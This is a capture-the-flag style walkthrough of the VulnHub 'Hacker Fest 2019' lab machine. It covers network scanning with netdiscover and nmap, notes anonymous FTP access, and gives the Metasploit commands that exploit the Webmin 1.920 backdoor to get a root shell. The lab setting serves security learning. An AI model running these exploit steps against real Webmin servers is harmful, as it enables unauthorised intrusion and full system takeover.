```yaml
---
published: true
category: vulnhub
---
```

**Url**: [HF VulnHub](https://www.vulnhub.com/entry/hacker-fest-2019,378/) 

**Difficulty**: Easy 

**Author**: Martin Haller

### Enumeration

Firstly, a netdiscover scan will reveal how the machine can be identified on the network:

<pre>netdiscover -i eth1</pre>
    
![netdiscover](https://imgur.com/7ukhwVk.png)

Then an nmap scan:

<pre>nmap -p- -A 192.168.56.112</pre>

![nmap](https://imgur.com/oJwydwu.png)

The port scan reveals ports 21 (ftp), 22 (ssh) and 10000 which seems to be hosting Webmin. I will attempt to connect via FTP via Anonymous. This was an extremely easy way to gain access to all the wordpress websites files, however I will be exploring other methods which require more exploitation. 

### Webmin

Some research shows a Webmin 1.920 vulnerability. I use searchsploit to find these vulnerabilities. 
I am particularly interested in the Unauthenticated Remote Code Execution. 

![ss](https://imgur.com/LXDbbsN.png)

On metasploit console, we use the webmin exploit and fill out the necessary options as demonstrated below:

<pre>msfconsole
use exploit/linux/http/webmin_backdoor
show options
set rhosts 192.168.56.112
set ssl true
set lhost 192.168.56.101</pre>

![msf](https://imgur.com/82fsLmB.png)

The exploit is ready to go.

<pre>exploit
id</pre>

![root](https://imgur.com/S4YAYol.png)



